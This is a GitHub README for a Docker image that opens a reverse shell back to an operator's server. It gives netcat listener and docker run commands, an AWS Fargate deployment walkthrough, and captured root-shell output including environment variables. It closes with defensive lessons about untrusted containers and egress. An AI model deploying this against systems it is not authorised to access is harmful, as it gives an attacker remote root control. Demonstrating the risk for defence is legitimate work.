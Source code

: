 # Reverse Shell Container

[![size](https://img.shields.io/github/languages/code-size/ayeks/reverse_shell?label=github%20code%20size)](https://github.com/ayeks/reverse_shell)
[![pulls](https://img.shields.io/docker/pulls/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)
[![automated](https://img.shields.io/docker/cloud/automated/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)
[![image-size](https://img.shields.io/docker/image-size/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)
[![license](https://img.shields.io/github/license/ayeks/reverse_shell)](https://github.com/ayeks/reverse_shell/blob/master/LICENSE)

Run a container which connects back to a server with a reverse shell.

## Usage of the remote shell container

Follow these steps to connect back to a shell from within a container.

### Start the server

The reverse shell in the container will connect back to your server.
Open up a port with the following snippet:

```bash
nc -lvvp 6666
```

### optional: Build the image

```bash
docker build -t ayeks/reverse_shell:latest .
```

### Execute the image

Run the reverse shell container with: `docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 ayeks/reverse_shell`

## Start the reverse shell container in AWS Fargate

We all run 3rd party components in our kubernetes clusters but couldn't
care less about it. This example shows how to setup the reverse shell
as a Fargate Container and how it connects back to an EC2 server.

### Setup the AWS Security Groups

Create a reference security group for the container which we will allow
as ingress at our server.

* Security Group Name: `sg_reverse_shell_reference`
* Inbound Rules: none
* Outbound Rules:
  * `All traffic All All 0.0.0.0/0`

Create a security group for your server that allows you to connect to it via
SSH from home and with the reverse shell from the container.

* Security Group Name: `sg_server`
* Inbound Rules:
  * `All TCP TCP 0 - 65535 sg-RANDOMNUMBER(sg_reverse_shell_reference)`
  * `SSH TCP 22 YOUR_PUBLIC_IP/32`
* Outbound Rules: all TCP, all IPs:
  * `All traffic All All 0.0.0.0/0`

### Setup the AWS EC2 server

Just choose a EC2 machine that you like. Attach the securitygroup
`sg_server` to this machine. Start the server and connect to it via SSH.

### Create a new container tasks definition

Create a new task definition for the reverse shell container. Only add the
necessary information.

* Task Definition Name: `reverse_shell`
* Task Memory: `0.5GB`
* Task CPU: `0.25 vCPU`
* Container Definition:
  * Container Name: `reverse_shell`
  * Image: `ayeks/reverse_shell`
  * Memory Limit: `Soft limit 400`
  * Environment Variables:
    * `IP` - `your servers internal IP adress`
    * `Port` - `6666`

### Start the reverse shell container in AWS ECS

Before you run the task make sure that you listen for the container at your server:

```bash
nc -lvvp 6666
```

Now go to your cluster and hit *run task*:

* Launch Type: `Fargate`
* Task Definition: `reverse_shell`
* Cluster VPC: `your favourite VPC`
* Subnets: `your favourite subnet`
* Security Groups: edit and select the existing: `sg_reverse_shell_reference`
* Auto-assign public IP: `Enabled` <- without that you cannot pull the image from Docker hub

As a result the container should connect back to your server. You are now able to execute commands directly in the container, eg. `uname -a`:

```bash
[ec2-user@ip-172-31-39-189 ~]$ nc -lvvp 6666
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 172.31.2.37.
Ncat: Connection from 172.31.2.37:56656.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-172-31-2-37:/# uname -a
uname -a
Linux ip-172-31-2-37.eu-west-1.compute.internal 4.14.158-129.185.amzn2.x86_64 #1 SMP Tue Dec 24 03:15:32 UTC 2019 x86_64 GNU/Linux
```

Just printing the environment variables.

```bash
root@ip-172-31-2-37:/# env
env
AWS_EXECUTION_ENV=AWS_ECS_FARGATE
HOSTNAME=ip-172-31-2-37.eu-west-1.compute.internal
AWS_DEFAULT_REGION=eu-west-1
AWS_REGION=eu-west-1
PWD=/
PORT=6666
HOME=/root
IP=172.31.39.189
ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/b9fa9196-e49a-4140-ae3b-bd7322cfbd44
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

Or after installation with apt-get, you can run `lshw`:

```bash
root@ip-172-31-2-37:/# lshw
lshw
ip-172-31-2-37.eu-west-1.compute.internal
  description: Computer
  width: 64 bits
  capabilities: smp vsyscall32
  *-core
     description: Motherboard
     physical id: 0
   *-memory
      description: System memory
      physical id: 0
      size: 4GiB
   *-cpu
      product: Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz
      vendor: Intel Corp.
      physical id: 1
      bus info: cpu@0
      width: 64 bits
...
```

### Troubleshooting

If your container task does not reach the state `RUNNING` but goes
into `STOPPED` have a look the reason. If the container is not able to
connect to your server it just dies and returns `Exit Code 1`.
Check the security groups and other networking topics if that happens.

### Lessons Learned

* think twice before using random containers from the internet
* do not assume you are save, just because you dont allow ingress traffic
* do not run the container as root user because you install interesting software with it
* strip the container base image down as much as possible to reduce available tools
